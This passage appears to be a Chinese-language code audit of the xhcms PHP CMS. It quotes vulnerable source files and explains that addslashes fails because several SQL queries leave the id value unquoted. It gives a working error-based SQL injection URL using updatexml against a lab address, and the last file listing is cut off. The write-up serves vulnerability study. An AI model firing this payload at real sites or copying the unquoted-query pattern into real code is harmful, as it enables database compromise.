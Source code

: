 ```
<?php
$query=mysql_query("select * FROM interaction WHERE (cid='$id' AND type=1 and xs=1)");
$pinglunzs = mysql_num_rows($query)
?>
```

这里的id虽然经过了`$id=addslashes($_GET['cid']);`处理,但是sql语句没有单引号保护,可以直接注入

```
$query = "UPDATE content SET hit = hit+1 WHERE id=$id";
```

```
http://192.168.121.130/xhcms/?r=content&cid=1 and updatexml(1,concat(0x7e,(select database()),0x7e),1)
```

![image-20210925152903194](/Users/DawnT0wn/Library/Application Support/typora-user-images/image-20210925152903194.png)

### /files/software.php

```
<?php 
require 'inc/conn.php';
require 'inc/time.class.php';
$query = "SELECT * FROM settings";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$info = mysql_fetch_array($resul);
$id=addslashes($_GET['cid']);
$query = "SELECT * FROM download WHERE id=$id";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$download = mysql_fetch_array($resul);

//浏览计数
$query = "UPDATE download SET hit = hit+1 WHERE id=$id";
@mysql_query($query) or die('修改错误：'.mysql_error());
?>
```

sql语句依然是没有单引号保护,利用方式如上

### /files/submit.php

源码

```
<?php
session_start();
require 'inc/conn.php';
$type=addslashes($_GET['type']);
$name=$_POST['name'];
$mail=$_POST['mail'];
$url=$_POST['url'];
$content=$_POST['content'];
$cid=$_POST['cid'];
$ip=$_SERVER["REMOTE_ADDR"];
$tz=$_POST['tz'];
if ($tz==""){$tz=0;}
$jz=$_POST['jz'];

$query = "SELECT * FROM interaction WHERE( mail = '$mail')";
```
